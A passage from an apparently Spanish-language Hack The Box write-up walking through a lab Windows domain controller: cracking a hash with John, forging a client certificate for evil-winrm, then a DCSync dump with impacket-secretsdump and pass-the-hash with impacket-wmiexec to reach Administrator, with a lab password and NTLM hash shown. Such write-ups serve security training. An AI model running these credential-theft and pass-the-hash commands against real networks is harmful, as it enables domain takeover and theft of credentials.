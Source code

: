 ### Crackeando el hash con John {-}

Copiamos el hash en un fichero y le lanzamos John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt mrkly_hash
```

Aqui ya tenemos la contraseña del usuario. Aqui no vamos a poder connectarnos a la maquina victima con este usuario porque
tenemos que crear un nuevo certificado.

Entramos con firefox a la routa `/certsrv` con las credenciales del usuario MRKLY.

1. En la web le damos a `Request Certificate -> advanced certificate request`
1. Creamos un certificado (Private Key) en la maquina de atacante

    ```bash
    openssl req -newkey rsa:2048 -nodes -keyout mrkly.key -out mrkly.csr
    cat mrkly.csr | tr -d '\n' | xclip -sel clip
    ```

1. Colamos el contenido en la web y podemos descargar el DER encode certificate.

```bash
    mv /home/s4vitar/Downloads/certnew.cer .
    evil-winrm -S -c certnew.cer -k mrkly.key -i 10.10.10.103 -u 'mrkly' -p 'Football#7'
```

Ya podemos leer la Flag.
## Privilege Escalation {-}

### Rootear la maquina {-}

Como hemos echo una buena enumeracion del systema, sabemos que el usuario **MRKLY** puede hacer un ataque DCSync para recuperar los
hashes de los usuarios del systema.

Aqui la escala de privilegio es facil y se hace desde la maquina de atacante con **SecretsDump**

```bash
impacket-secretsdump htb.local/mrlky:Football#7@10.10.10.103
```

Aqui ya vemos hashes que podemos uzar para hacer **PASS THE HASH**. Copiamos el hash del usuario Administrator y lanzamos

```bash
impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
whoami
#Output
htb\administrator
```

Ya podemos leer el **root.txt**
